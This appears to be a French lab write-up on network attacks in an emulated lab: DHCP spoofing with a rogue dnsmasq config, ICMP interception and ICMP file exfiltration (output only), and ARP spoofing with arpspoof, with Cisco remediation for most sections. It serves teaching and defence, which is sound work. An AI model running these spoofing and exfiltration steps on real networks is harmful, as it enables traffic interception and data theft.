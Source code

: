 # Setup

PC3> dhcp
DDORA IP 10.2.1.184/24 GW 10.2.1.254



PC3> ping 8.8.8.8

84 bytes from 8.8.8.8 icmp_seq=1 ttl=114 time=37.636 ms
84 bytes from 8.8.8.8 icmp_seq=2 ttl=114 time=38.209 ms
84 bytes from 8.8.8.8 icmp_seq=3 ttl=114 time=39.489 ms



R1#show ip int br
Interface                  IP-Address      OK? Method Status                Protocol
FastEthernet0/0            192.168.122.3   YES DHCP   up                    up  
FastEthernet1/0            10.2.1.254      YES NVRAM  up                    up  
FastEthernet1/1            unassigned      YES NVRAM  administratively down down
FastEthernet2/0            unassigned      YES NVRAM  administratively down down
FastEthernet2/1            unassigned      YES NVRAM  administratively down down
NVI0                       unassigned      NO  unset  up



PC3> ping 8.8.8.8

8.8.8.8 icmp_seq=1 timeout
84 bytes from 8.8.8.8 icmp_seq=2 ttl=114 time=36.501 ms
84 bytes from 8.8.8.8 icmp_seq=3 ttl=114 time=53.740 ms



PC3> ping 10.2.1.51

84 bytes from 10.2.1.51 icmp_seq=1 ttl=64 time=8.285 ms
84 bytes from 10.2.1.51 icmp_seq=2 ttl=64 time=3.606 ms


Common network attacks


# DHCP

DHCP spoofing

┌──(kali㉿kali)-[~]
└─$ cat /etc/dnsmasq.conf 
server=1.1.1.1
listen-address=127.0.0.1
listen-address=10.2.1.187
no-dhcp-interface=
no-hosts
dhcp-range=10.2.1.220,10.2.1.230,12h
dhcp-option=option:netmask,255.255.255.0
dhcp-option=option:router,10.2.1.254
dhcp-option=option:dns-server,10.2.1.12
addn-hosts=/etc/dnsmasq.d/spoof.hosts

┌──(kali㉿kali)-[~]
└─$ 


Only Atk VM up - Legit DHCP Server Down

PC3> sh ip

NAME        : PC3[1]
IP/MASK     : 0.0.0.0/0
GATEWAY     : 0.0.0.0
DNS         :
MAC         : 00:50:79:66:68:05
LPORT       : 20044
RHOST:PORT  : 127.0.0.1:20045
MTU         : 1500

PC3> ip dhcp
DDORA IP 10.2.1.230/24 GW 10.2.1.254

PC3> sh ip

NAME        : PC3[1]
IP/MASK     : 10.2.1.230/24
GATEWAY     : 10.2.1.254
DNS         : 10.2.1.12
DHCP SERVER : 10.2.1.60
DHCP LEASE  : 43194, 43200/21600/37800
MAC         : 00:50:79:66:68:05
LPORT       : 20044
RHOST:PORT  : 127.0.0.1:20045
MTU         : 1500

PC3>


Legit DHCP + Atk VM up - DHCP Spoofing

Capture : [dhcp_spoof.pcapng](dhcp_spoof.pcapng)

PC3> sh ip

NAME        : PC3[1]
IP/MASK     : 0.0.0.0/0
GATEWAY     : 0.0.0.0
DNS         :
MAC         : 00:50:79:66:68:05
LPORT       : 20044
RHOST:PORT  : 127.0.0.1:20045
MTU         : 1500

PC3> ip dhcp
DORA IP 10.2.1.230/24 GW 10.2.1.254

PC3> sh ip

NAME        : PC3[1]
IP/MASK     : 10.2.1.230/24
GATEWAY     : 10.2.1.254
DNS         : 10.2.1.12
DHCP SERVER : 10.2.1.60
DHCP LEASE  : 40418, 43200/21600/37800
MAC         : 00:50:79:66:68:05
LPORT       : 20044
RHOST:PORT  : 127.0.0.1:20045
MTU         : 1500

Remédiation : 
Switch# conf t
Switch(config)# ip dhcp snooping
Switch(config)# ip dhcp snooping vlan ..
Switch(config)# interface ...
Switch(config-if)# ip dhcp snooping trust
Switch(config-if)# exit
Switch(config)# interface ...
Switch(config-if)# ip dhcp snooping untrust
Switch(config-if)# exit
Switch(config)# exit
Switch# show ip dhcp snooping

Switch# conf t
Switch(config)# interface ...
Switch(config-if)# switchport port-security
Switch(config-if)# switchport port-security maximum 2
Switch(config-if)# switchport port-security violation restrict
Switch(config-if)# switchport port-security mac-address sticky
Switch(config-if)# exit
Switch(config)# exit
Switch# show port-security


# ICMP

Interception ping

┌──(root㉿kali)-[/home/kali/Desktop/Script]
└─# python icmp_basic_receiver.py
Sniffing des paquets ICMP provenant de 127.0.0.1...
Ping reçu de 127.0.0.1 avec les données : test interception
Ping reçu de 127.0.0.1 avec les données : test interception
Ping reçu de 127.0.0.1 avec les données : test interception
Ping reçu de 127.0.0.1 avec les données : test interception



Exfiltration fichier

┌──(root㉿kali)-[/home/kali/Desktop/Script]
└─# python icmp_file_exfiltr.py
Envoi du bloc 1 vers 127.0.0.1 : b'toto\n'
Exfiltration terminée
#### Interception ping

Remédiation :


# ARP 
┌──(root㉿kali)-[~]
└─$ echo 1 > /proc/sys/net/ipv4/ip_forward

┌──(root㉿kali)-[~]
└─$ arpspoof -i eth0 -t 10.2.1.100 -r 10.2.1.254
ARP reply sent to 10.2.1.100 (00:11:22:33:44:55) telling it's 10.2.1.254
ARP reply sent to 10.2.1.254 (00:11:22:33:44:55) telling it's 10.2.1.100
...

PC1> sh arp

10.2.1.254  00:50:79:66:68:05
10.2.1.100  00:11:22:33:44:55

PC1> sh arp

10.2.1.254  00:11:22:33:44:55
10.2.1.100  00:11:22:33:44:55

Remédiation : 

Switch(config)# ip arp inspection vlan ..
Switch(config)# ip dhcp snooping
Switch(config)# ip dhcp snooping vlan ..
Switch(config)# exit
Switch# show ip arp inspection

